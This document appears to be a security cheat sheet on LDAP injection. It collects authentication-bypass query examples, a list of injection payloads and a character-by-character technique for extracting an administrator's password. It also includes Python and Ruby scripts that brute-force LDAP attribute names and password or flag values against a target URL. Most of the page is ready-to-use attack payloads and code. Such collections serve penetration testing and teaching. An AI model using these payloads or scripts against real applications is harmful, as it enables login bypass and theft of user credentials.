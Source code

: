 # LDAP Injection

> LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.

## Summary

* [Exploitation](#exploitation)
* [Payloads](#payloads)
* [Blind Exploitation](#blind-exploitation)
* [Defaults attributes](#defaults-attributes)
* [Exploiting userPassword attribute](#exploiting-userpassword-attribute)
* [Scripts](#scripts)
  * [Discover valid LDAP fields](#discover-valid-ldap-fields)
  * [Special blind LDAP injection](#special-blind-ldap-injection)

## Exploitation

Example 1.

```sql
user  = *)(uid=*))(|(uid=*
pass  = password
query = (&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))
```

Example 2

```sql
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

## Payloads

```text
*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
```

## Blind Exploitation

We can extract using a bypass login

```sql
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```

## Defaults attributes

Can be used in an injection like `*)(ATTRIBUTE_HERE=*`

```bash
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
```

## Exploiting userPassword attribute

`userPassword` attribute is not a string like the `cn` attribute for example but it’s an OCTET STRING
In LDAP, every object, type, operator etc. is referenced by an OID : octetStringOrderingMatch (OID 2.5.13.18).

> octetStringOrderingMatch (OID 2.5.13.18): An ordering matching rule that will perform a bit-by-bit comparison (in big endian ordering) of two octet string values until a difference is found. The first case in which a zero bit is found in one value but a one bit is found in another will cause the value with the zero bit to be considered less than the value with the one bit.

```bash
userPassword:2.5.13.18:=\xx (\xx is a byte)
userPassword:2.5.13.18:=\xx\xx
userPassword:2.5.13.18:=\xx\xx\xx
```

## Scripts

### Discover valid LDAP fields

```python
#!/usr/bin/python3

import requests
import string

fields = []

url = 'https://URL.com/'

f = open('dic', 'r') #Open the wordlists of common attributes
wordl = f.read().split('\n')
f.close()

for i in wordl:
    r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'}) #Like (&(login=*)(ITER_VAL=*))\x00)(password=bla))
    if 'TRUE CONDITION' in r.text:
        fields.append(str(i))

print(fields)
```

Ref. [5][5]

### Special blind LDAP injection (without "*")

```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web?action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

Ref. [5][5]

```ruby
#!/usr/bin/env ruby

require 'net/http'
alphabet = [*'a'..'z', *'A'..'Z', *'0'..'9'] + '_@{}-/()!"$%=^[]:;'.split('')

flag = ''

(0..50).each do |i|
  puts("[i] Looking for number #{i}")
  alphabet.each do |char|
    r = Net::HTTP.get(URI("http://ctf.web?action=dir&search=admin*)(password=#{flag}#{char}"))
    if /TRUE CONDITION/.match?(r)
      flag += char
      puts("[+] Flag: #{flag}")
      break
    end
  end
end
```

By [noraj](https://github.com/noraj)


## References

* [OWASP LDAP Injection](https://www.owasp.org/index.php/LDAP_injection)
* [LDAP Blind Explorer](http://code.google.com/p/ldap-blind-explorer/)
* [ECW 2018 : Write Up - AdmYSsion (WEB - 50) - 0xUKN](https://0xukn.fr/posts/writeupecw2018admyssion/)
* [Quals ECW 2018 - Maki](https://maki.bzh/courses/blog/writeups/qualecw2018/)
* [How To Manage and Use LDAP Servers with OpenLDAP Utilities](https://www.digitalocean.com/community/tutorials/how-to-manage-and-use-ldap-servers-with-openldap-utilities)
* [How To Configure OpenLDAP and Perform Administrative LDAP Tasks](https://www.digitalocean.com/community/tutorials/how-to-configure-openldap-and-perform-administrative-ldap-tasks)
* SSH key authentication via LDAP
    - [How to setup LDAP server for openssh-lpk](https://openssh-ldap-pubkey.readthedocs.io/en/latest/openldap.html)
    - [openssh-lpk.ldif](https://github.com/Lullabot/openldap-schema/blob/master/openssh-lpk.ldif)
    - [Setting up OpenLDAP server with OpenSSH-LPK on Ubuntu 14.04](https://blog.shichao.io/2015/04/17/setup_openldap_server_with_openssh_lpk_on_ubuntu.html)
    - [SSH key authentication using LDAP](https://serverfault.com/questions/653792/ssh-key-authentication-using-ldap)
    - [FR] [SSH et LDAP](https://wiki.lereset.org/ateliers:serveurmail:ldap-ssh)
    - [SSH Public Keys in OpenLDAP](http://pig.made-it.com/ldap-openssh.html)